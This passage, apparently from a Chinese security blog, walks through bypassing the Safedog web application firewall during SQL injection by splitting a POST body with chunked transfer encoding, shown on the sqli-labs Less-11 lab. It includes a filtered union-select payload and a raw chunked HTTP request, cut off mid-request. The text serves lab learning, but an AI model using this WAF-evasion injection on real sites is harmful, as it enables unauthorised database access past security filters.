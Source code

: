     0  
      
    

![](https://gitee.com/fuli009/images/raw/master/public/20230304135621.png)

说明是可以识别分块传输的东西，那么我们就可以构造payload来看是否可以绕过waf。

# 绕过安全狗的sql注入：

这里先解决一下绕过安全狗的方式，在常见的方式中，我们都采用垃圾字符填充的方式来绕过安全狗，虽然效果很好，但是较为复杂，也容易出现被狗咬伤的情况，所以为了解决这一现状，小秦同学翻阅之后发现了分块传输的方式来绕过安全狗。但是分块传输目前来看只能适用于post请求。get请求还是比较难说。

### 以sql-labs为例：

在sqli-labs的第十一关，我们发现了可以用post请求。先正常看看过滤哪些字符，这里开门见山，直接把'union select
(database()),2#。这个东西进行了过滤  
![](https://gitee.com/fuli009/images/raw/master/public/20230304135623.png)  
咱们可以尝试使用分块传输的方式来进行绕过。这里在请求头中添加。

    
    
    Transfer-Encoding: chunked  
    这个东西，然后进行分块即可。  
    

#### 读取数据库名

    
    
    POST /sqli-labs-master/Less-11/ HTTP/1.1  
    Host: 192.168.172.161  
    Content-Length: 251  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    Origin: http://192.168.172.161  
    Content-Type: application/x-www-form-urlencoded  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Referer: http://192.168.172.161/sqli-labs-master/Less-11/  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9  
    Connection: close  
    Transfer-Encoding: chunked  
      
    1  
    u  
    4  
    name  
    1  
    =  
    1  
    &  
    2  
    pa  
    4  
    sswd  
    1  
    =  
    3  
    %27  
    2  
    un  
    1  
    i  